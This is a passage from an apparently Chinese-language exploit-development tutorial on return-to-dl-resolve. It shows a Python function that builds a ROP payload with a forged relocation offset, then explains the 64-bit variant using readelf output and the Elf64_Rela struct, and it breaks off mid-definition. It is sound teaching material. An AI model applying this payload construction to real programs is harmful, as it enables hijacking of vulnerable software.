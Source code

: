 其次便是函数dl_resolve_call了。其定义如下：  
``` python

    def dl_resolve_call(self, base, *args):
        jmprel = self.dynamic('JMPREL')
        relent = self.dynamic('RELENT')

        addr_reloc, padlen_reloc = self.align(base, jmprel, relent)
        reloc_offset = addr_reloc - jmprel

        buf = self.p(self.plt())
        buf += self.p(reloc_offset)
        buf += self.p(self.gadget('pop', n=len(args)))
        buf += self.p(args)

        return buf
```
可以看到，这里将所调用的函数的参数及返回的gadget放在栈上，再往上便是构造的伪Elf32_Rel条目的offset，最后则是.plt起始处的地址，在那里会完成将link_map放至栈上及调用_dl_runtime_resolve。  

## 64位环境下return to dl-resolve  
相比32位，其实基本原理还是相同的。只是由于位数增加，一些结构体发生变化；此外，函数参数也变成由寄存器传递而非栈传递。  

具体地，我们看64位relocation entry的定义。首先通过$ readelf -d可知，现在的类型为RELA，大小RELAENT为24 bytes：  
```
$ readelf -d bof64

Dynamic section at offset 0x7b0 contains 24 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x4003e0
 0x000000000000000d (FINI)               0x400634
 0x0000000000000019 (INIT_ARRAY)         0x600798
 0x000000000000001b (INIT_ARRAYSZ)       8 (bytes)
 0x000000000000001a (FINI_ARRAY)         0x6007a0
 0x000000000000001c (FINI_ARRAYSZ)       8 (bytes)
 0x000000006ffffef5 (GNU_HASH)           0x400260
 0x0000000000000005 (STRTAB)             0x4002f8
 0x0000000000000006 (SYMTAB)             0x400280
 0x000000000000000a (STRSZ)              67 (bytes)
 0x000000000000000b (SYMENT)             24 (bytes)
 0x0000000000000015 (DEBUG)              0x0
 0x0000000000000003 (PLTGOT)             0x600988
 0x0000000000000002 (PLTRELSZ)           96 (bytes)
 0x0000000000000014 (PLTREL)             RELA
 0x0000000000000017 (JMPREL)             0x400380
 0x0000000000000007 (RELA)               0x400368
 0x0000000000000008 (RELASZ)             24 (bytes)
 0x0000000000000009 (RELAENT)            24 (bytes)
 0x000000006ffffffe (VERNEED)            0x400348
 0x000000006fffffff (VERNEEDNUM)         1
 0x000000006ffffff0 (VERSYM)             0x40033c
 0x0000000000000000 (NULL)               0x0
```
其定义如下：  
``` c
typedef __u16   Elf64_Half;
typedef __u32   Elf64_Word;
typedef __u64   Elf64_Addr;
typedef __u64   Elf64_Xword;
typedef __s64   Elf64_Sxword;

typedef struct elf64_rela {
  Elf64_Addr r_offset;  /* Location at which to apply the action */
```